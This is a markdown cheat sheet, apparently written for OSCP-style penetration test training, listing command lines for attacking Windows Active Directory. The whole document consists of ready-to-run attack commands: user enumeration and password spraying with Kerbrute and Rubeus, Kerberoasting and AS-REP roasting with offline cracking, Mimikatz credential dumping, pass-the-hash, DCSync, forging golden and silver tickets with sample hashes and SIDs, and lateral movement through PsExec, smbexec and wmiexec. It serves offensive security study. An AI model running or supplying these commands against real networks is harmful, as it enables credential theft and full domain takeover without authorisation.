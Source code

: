   - [Crackmap](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#crackmap)
  - [Kerbrute](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#kerbrute)
  - [Rubeus](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#rubeus)
  - [Roasting](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#roasting)
  - [Mimikatz](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#mimikatz)
  - [Lateral Movement](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#lateral-movement)

More - https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a


# Crackmap

```crackmapexec <service> [hostname/ip]```

```crackmapexec smb 10.10.10.175```

# Kerbrute

```./kerbrute_linux_amd64 userenum -d $DOMAIN -dc $DOMAIN_CONTROLLER usernames.txt```

```./kerbrute_linux_amd64 -domain $DOMAIN -users usernames.txt -passwords passwords.txt -outputfile Output_File```

# Rubeus
https://www.hackingarticles.in/a-detailed-guide-on-rubeus/

Brute Password spray:

```Rubeus.exe brute /password:$PASSWORD /noticket```

Get tickets on System:

```Rubeus.exe harvest /interval:30```

Request ticket (TGT) based on username and password/hash:

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

# Roasting
https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/

https://www.hackingarticles.in/as-rep-roasting/

```Rubeus.exe kerberoast /nowrap```

```Rubeus.exe asreproast /nowrap```

- ```/format:[hashcat | john]> /outfile:Hashes.txt```

```john hash.txt```

```john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt```

- ```--format=krb5tgs```


# Mimikatz
https://adsecurity.org/?page_id=1821

#### Turn an NTLM into a TGT (OverPass-the-Hash / Pass-the-Key):

```
mimikatz#> 
privilege::debug
sekurlsa::logonpasswords
```

```sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe```

OR

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

```
Klist
Net use //dc1
Klist
```

PSEXEC to DC - 
```.\PsExec.exe \\dc01 cmd.exe```

* * * 

#### DCSync Attack:
```lsadump::dcsync /user:Administrator```
```lsadump::dcsync /user:domain\krbtgt```


#### Golden:
Jump to DC to dump krbtgt hash:

```psexec.exe \\dc01 cmd.exe```

```
Privilege::debug
lsadump::lsa /patch
```

Now we can create a Golden Ticket:
```Kerberos::purge```

```
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

Prove we have DA permissions:
```
misc::cmd
psexec.exe \\dc01 cmd.exe
```

#### Silver:

Get domain SID  - ```Whoami /user```

```kerberos::list```

```
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

#### MAINTENANCE
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
```

#### Invoke Mimikatz

```Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'```

```Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'```

# Lateral Movement
```PsExec.exe -accepteula \\$HOSTNAME cmd```

```psexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```smbexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```wmiexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```rdesktop -d domain -u user -p password01 -r disk:local_folder=/path/to/shared_folder <hostname/IP> ```

